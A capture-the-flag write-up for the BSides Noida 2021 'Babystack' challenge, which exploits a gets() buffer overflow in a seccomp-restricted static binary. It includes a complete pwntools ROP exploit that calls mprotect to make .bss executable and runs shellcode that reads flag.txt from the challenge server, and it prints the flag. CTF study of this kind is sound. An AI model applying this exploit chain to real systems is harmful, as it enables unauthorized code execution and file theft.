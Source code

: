 # Babystack

Okay so this was a ROP based challenge in BSides Noida '21 CTF. At the time of the CTF, I wasn't really able to solve this challenge. However after trying again, I did get a solution.

Before we dive right in, let's check some preliminary conditions and permissions.

```babystack.out: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=07e1b7ffbb8cbb81b3b714c0187e30dd5f6e2a0d, for GNU/Linux 3.2.0, not stripped```
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
As we can see, it is a 64 bit, statically linked file, with canary and nx enabled. Therefore, to inject a shellcode, we will need an executable stack which isn't possible at the current moment. Let's dive right in to know more.

```int __cdecl main(int argc, const char **argv, const char **envp)
{
  u32 inp[16]; // [rsp+0h] [rbp-40h] BYREF

  apply_seccomp(argc, argv, envp);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  gets(inp);
  return 0;
}
```

From the above decompiled binary, we see the obvious vulnerability "gets" and use of "seccomp" which prevents us from using syscalls other than read, write and open. 
Upon analyzing the binary further we can find mprotect function which basically changes perissions of the .bss section. This would majorly help us in writing a shellcode as the .bss section already has permissions for read and write. Making it executable would help us injecting a shellcode. 
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b9000         0x004bc000         rw-p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out          <-- .bss section with read and write permissions only. 
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

As we can see, using mprotect(), if we change the permissions of the .bss section to "rwx", we can get our shellcode executed.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  
0x004b9000         0x004bc000         rwxp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out          <--- .bss section with read, write and executable permissions.
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

To do that, we need to note a few things:
- buffer size is 0x40.
- Use an address in .bss section with "rw" permissions and make it executable as well.
- in order to write the shellcode in .bss section, we need to make use of gets() in .bss section.

Firstly, in order to change the permissions, we may do the following:
```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi
```
This will make sure the .bss section has executable permissions. 

Since "seccomp" is used, we can only make use of read, write and open syscalls. Therefore we may write our shellcode as:
```
shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)
```

Now all we need to do is send the payload and give the shell!

## Exploit:
Here's the complete exploit:

```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi

shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)

sleep(0.1)
p.sendline(payload)
sleep(0.1)
p.sendline(asm(shell))

p.interactive()
```

## Flag:
```BSNoida{y0u_4r3_4_b4by_pwn3r_n0w_C7A5}```

